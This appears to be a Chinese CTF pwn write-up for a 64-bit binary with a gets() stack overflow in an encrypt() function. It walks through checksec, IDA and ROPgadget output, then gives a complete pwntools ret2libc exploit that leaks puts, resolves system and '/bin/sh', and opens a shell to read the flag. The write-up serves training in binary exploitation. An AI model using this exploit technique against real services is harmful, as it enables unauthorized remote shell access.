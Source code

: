 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711351646091-473c80bb-b081-42ab-8ac4-c0056c3d0612.png#averageHue=%23252b31&clientId=u620920a9-0c5a-4&from=paste&height=837&id=udceb363e&originHeight=837&originWidth=743&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77709&status=done&style=none&taskId=uf8026596-f5cf-4eba-8c81-54db3d2e112&title=&width=743)
### 下载好附件之后，先丢到 checksec 看一下开了什么保护
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352413112-e07b4481-0817-474b-a5fa-d8798dd613aa.png#averageHue=%230f2427&clientId=u620920a9-0c5a-4&from=paste&height=232&id=u89d82581&originHeight=232&originWidth=510&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68848&status=done&style=none&taskId=ua511d451-1fed-4ec3-a568-a8a36e7e009&title=&width=510)
### 有栈溢出：Stack:    No canary found
### 丢到IDE看一下
按 shift+f12 看一下字符串，发现没有system和/bin/sh
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352579899-135f5402-e48a-4ea6-b344-852335ccc132.png#averageHue=%23474643&clientId=u620920a9-0c5a-4&from=paste&height=778&id=u4db6c5e4&originHeight=778&originWidth=1270&originalType=binary&ratio=1&rotation=0&showTitle=false&size=99914&status=done&style=none&taskId=u2ce971c1-d1e2-43e4-b876-c32c3f0e983&title=&width=1270)
回到上方标签（ IDA View-A ）回到主界面按f5查看伪代码
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352692527-afcf4d9d-6877-4d39-a135-4f0eb2c97599.png#averageHue=%23312f2e&clientId=u620920a9-0c5a-4&from=paste&height=611&id=ud92e9b96&originHeight=611&originWidth=681&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51416&status=done&style=none&taskId=u13a2e265-49fe-4f58-b123-01d09949aa7&title=&width=681)
发现encrypt()函数存在gets溢出
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352763184-253e4de4-f0d8-49da-9571-6c0791920b65.png#averageHue=%23302f2e&clientId=u620920a9-0c5a-4&from=paste&height=571&id=ub68ac996&originHeight=571&originWidth=432&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29792&status=done&style=none&taskId=ub44cb765-8eae-416f-95fd-f22e5563db2&title=&width=432)
gets没有任何限制，但是储存用户输入的s只有50的大小，加上r的大小就能溢出
双击s查看
```
0000000000000050 s db 48 dup(?)   // s的大小只有50
-0000000000000020 anonymous_0 dw ?
-000000000000001E db ? ; undefined
-000000000000001D db ? ; undefined
-000000000000001C db ? ; undefined
-000000000000001B db ? ; undefined
-000000000000001A db ? ; undefined
-0000000000000019 db ? ; undefined
-0000000000000018 db ? ; undefined
-0000000000000017 db ? ; undefined
-0000000000000016 db ? ; undefined
-0000000000000015 db ? ; undefined
-0000000000000014 db ? ; undefined
-0000000000000013 db ? ; undefined
-0000000000000012 db ? ; undefined
-0000000000000011 db ? ; undefined
-0000000000000010 db ? ; undefined
-000000000000000F db ? ; undefined
-000000000000000E db ? ; undefined
-000000000000000D db ? ; undefined
-000000000000000C db ? ; undefined
-000000000000000B db ? ; undefined
-000000000000000A db ? ; undefined
-0000000000000009 db ? ; undefined
-0000000000000008 db ? ; undefined
-0000000000000007 db ? ; undefined
-0000000000000006 db ? ; undefined
-0000000000000005 db ? ; undefined
-0000000000000004 db ? ; undefined
-0000000000000003 db ? ; undefined
-0000000000000002 db ? ; undefined
-0000000000000001 db ? ; undefined
+0000000000000000  s db 8 dup(?)
+0000000000000008  r db 8 dup(?) // r 的大小有8
```
### 开始构造第一个payload
因为这个程序是64位的，要查看指令地址
在kali里面运行命令：
```bash
ROPgadget --binary pwn --only "pop|ret"
# 这里的 pwn 是你的文件名，我为了方便改了
```
得到结果：
```bash
Gadgets information
============================================================
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret // 记住这个地址 0x400c83
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret // 记住这个地址 0x4006b9
0x00000000004008ca : ret 0x2017
0x0000000000400962 : ret 0x458b
0x00000000004009c5 : ret 0xbf02

Unique gadgets found: 15
```
构造payload
tips：因为gets的s参数的大小只有50，r的大小有8。这两个数值都是16进制,所以
```python
b'a' * (0x50+0x8) # 溢出的大小 
```
## 完整exp
```python
def payload(url, port):
    context(arch="amd64",os="linux",log_level="debug")
    elf = ELF('./pwn') # 文件路径
    p = remote(url,port)
    # 指令地址
    pop_rdi_ret = 0x400c83
    ret = 0x4006b9
    # 查找地址
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    # 加密函数地址
    enc = elf.sym['encrypt']
    # 构造payload
    pd1 = b'a' * (0x50+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(enc)
    # 发送选项1，选择加密
    p.sendlineafter('choice!',str(1))
    # 发送payload到加密函数的输入上去
    p.sendlineafter('encrypt',pd1)
    # 找到libc地址
    put = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print(hex(put)) 
    # 输出
    """ >>> 0x7f2961b099c0 """
    print('选择 libc6_2.27-0ubuntu2_amd64')
    libc = LibcSearcher('puts',put)
    libc_base = put - libc.dump('puts')
    # 获取system和sh
    def addr(hx):
        if hx == 'system':
            return libc_base + libc.dump('system')
        elif hx == 'str_bin_sh':
            return libc_base + libc.dump('str_bin_sh')
        hx = ''
    sys_addr = addr('system')
    sh_addr = addr('str_bin_sh')
    print(hex(sys_addr),hex(sh_addr))
    
    # 构造第二个payload
    pd2 = b'a' * 0x58 + p64(ret) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
    # 利用
    p.sendlineafter('encrypt',pd2)
    p.interactive()

if __name__ == '__main__':
    from pwn import *  # 导入pwntools库 
    # Windows没有库的话，安装命令：pip install pwntools
    from LibcSearcher import *  # 导入LibcSearcher库 
    url = ''  # 题目地址
    payload(url.split(":")[0], url.split(":")[1])  # 调用payload函数进行渗透
```
### 运行提示
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354129056-95ca2de8-de74-41a4-98d5-c08e3d114d3f.png#averageHue=%23282624&clientId=u620920a9-0c5a-4&from=paste&height=723&id=ub5aff1b5&originHeight=723&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&size=78750&status=done&style=none&taskId=ubb332ef5-0879-4ddb-8e14-c52e7bcca2b&title=&width=721)

看到有一排的a时，输入命令：ls
ls 运行完后 输出 cat flag得到

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354169453-c9eaac9e-f6ac-4f71-bcbc-fbe6e25f0f7d.png#averageHue=%23252423&clientId=u620920a9-0c5a-4&from=paste&height=707&id=uf1a28670&originHeight=707&originWidth=547&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39501&status=done&style=none&taskId=ua50f74f6-32df-4596-b9b9-5280a4d6056&title=&width=547)
